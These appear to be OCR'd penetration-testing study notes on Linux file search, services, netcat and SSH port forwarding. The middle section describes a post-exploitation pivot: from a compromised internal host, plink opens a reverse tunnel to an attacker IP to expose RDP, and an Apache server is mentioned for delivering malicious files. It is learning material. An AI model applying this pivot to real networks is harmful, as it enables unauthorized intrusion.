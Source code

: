 linux utilities to **find or locate** files

1. Locate command: 

Updatedb -- to update the db of the OS

Ex: locate sbd.exe

1. Which command :

Ex: which sbd : prg can be found under /usr/bin/

1. find command:

Ex: find / -name sbd\*

all files lower case sbd and file format.

find  -name sbd\* -exec file{} \;

**Services**:

passwd : change the old and weak pass to new strong password

1. SSH Services : Secure shell

EX : netstat -antp \| grep sshd

Service ssh stop

1. HTTP Server:

TCP based  and download the malicious file to victim

Ex: services apache2 start

echo "kali linux rocks" &gt; /var/www/index.html

1. services management : wrapper around /etc/init.d

4.Service persistent

update -rc.d ssh enable

update-rc.d apache2 enable

RC conf also can be used

**bash scripting**

1. cat index.html l grep "href="
2. cat index.html \| grep "href=" \| cut -d

**Essential**

netcat : network utility able to read and write to TCP and UDP ports

it can be used as TCP client or server

nc -nv 192.168.20.25 25

open

banner

HELP

SMTP list all commands

nc -nv 192.168.30.35 110

bob

password: bob

**Port Forwarding**

rinetd.conf

scenario1:

Encrypted tunnel within the ssh tunnel:

**SSH Local Port forwarding \(-L\):**

localport --&gt; remoteport \(Over ssh tunnel\)

**SSH Remote Port forwarding :**

Scenario2 \(tunnel a remote port to a local server\):

Initiated Client Attack \(on org\) and got shell of a internal machine \(Non routable\) -- &gt; uploaded a SSH windows client \(plink\) on vi

on victim machine we have RDP enabled \(\)

now to access internal RDP port by creating reverse SSL connection to attacker machine from the victim machine

Now tunnel the local rdp traffic to the remote port using plink

```
plink -l root -pw ubersecretpassword 208.88.127.99 -R 3390:127.0.0.1:3389
```

ssh connection is made and 3390 is in listen mode

netstat -antp \| grep LISTEN

Now in attacker machine try to tunnel the local traffic to rdp

```
rdesktop 127.0.0.1:3390
```

**SSH Dynamic Port Forwarding:**





-----------------------------------------------------------------------------------------

Port Forwarding is a way to forward or “tunnel” TCP traffic through SSH from one machine to another. Using just one line of code, you can create an outgoing tunnel, forward your IP requests over that tunnel, and receive the response. In this way you can **pull **the data from a remote server to a **local**server \(local port forwarding\), and your local machine acts as a proxy server for the remote one. Or you can create an incoming tunnel to a remote server which receives IP requests, forwards them over that tunnel to the local server where it is processed and sent back again. Thus it is possible to **push**data from a local server to/through a**remote**server \(remote port forwarding\).

Local Port Forwarding \(Outgoing Tunnel\):

* Principle: Local host forwards/displays content of remote host.
  **Local host acts as proxy**
  . Tunneling opens a listening socket on localhost and transfers content to remote server
* Command:
  `ssh -L local_port:remote_host:remote_port login@servername`
* Tunnel: local host -\(SSH tunnel\)→ remote host -\(SSH tunnel\)→ local host
* Example: check remote host behind load-balancer or firewall on localhost

Remote Port Forwarding \(Incoming Tunnel\):

* Principle: remote host forwards content of localhost.
  **Remote host acts as proxy**
  . Tunneling opens a listening socket on the remote server host and transfers the content to the local host
* Command:
  `ssh -R remote_port:local_host:local_port login@servername`
* Tunnel: remote host -\(SSH tunnel\)→ local host -\(SSH tunnel\)→ remote host
* Example: make localhost visible in the internet or giving access to a service on your home machine to people at work





